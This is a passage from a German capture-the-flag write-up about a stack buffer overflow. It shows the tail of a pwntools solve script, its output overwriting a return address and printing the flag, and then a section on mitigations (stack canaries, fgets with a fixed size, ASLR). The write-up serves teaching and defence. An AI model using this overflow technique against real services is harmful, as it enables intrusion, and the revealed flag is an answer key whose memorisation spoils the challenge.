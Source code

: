 ```python
process.sendline(payload)

print(process.recv())
print(process.recv())
```

Ausgabe des Programms mit Flag:

```
$ python solve.py
Baue Verbindung zu 20.126.227.19:57005...
[+] Opening connection to 20.126.227.19 on port 57005: Done
Sende Payload...
b'Wie heisst du?:\n'
b'Hallo DBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBHDBH\xd2\x11@. Viel Spass bei DBH!\nSo macht DBH doch viel mehr Spass.\n'
b'DBH{574ckb4513r73r_puff3ru3b3rl4uf}'
[*] Closed connection to 20.126.227.19 port 57005
```

## Beseitigung der Schwachstelle

Die Schwachstelle kann mit verschiedene Möglichkeiten beseitigt werden.

`Stack Canaries` sind zufällige Werte, die kurz vor die `Return Adresse` zur Laufzeit geschrieben werden. Sollten die Werte während der Laufzeit des Programms geändert werden, so ist dies ein Indiz für den Versuch eines stackbasierten Bufferoverflows und die Anwendung kann entsprechend reagieren (z. B. durch Beendigung).
Stack Canaries können während der Kompilierung bei `gcc` durch die Flag `-fstack-protector-all` aktiviert werden.
Eine Voraussetzung, dass dies funktioniert, ist, dass der Stack zur Laufzeit nicht geleakt wird.

Die Man-Page weist auf die sicherere Implementierung `fgets()` hin:

```c
fgets(char * restrict str, int size, FILE * restrict stream);
```

Hier kann mit `size` die Anzahl an Zeichen angegeben werden, die eingelesen werden sollen.
Wichtig ist, dass hier nicht zur Laufzeit die Länge des User-Inputs genutzt wird.

Mit `Address Space Layout Randomization (ASLR)` werden die einzelnen Teile des Arbeitsspeicher einer Anwendung zufällig platziert (vereinfacht erklärt). Ein Angreifer kann so nicht einfach die Rücksprung-Adresse einer Funktion ermitteln.

Im Besten Falle werden alle genannten Möglichkeiten gemeinsam umgesetzt.

## Flag
```
DBH{574ckb4513r73r_puff3ru3b3rl4uf}
```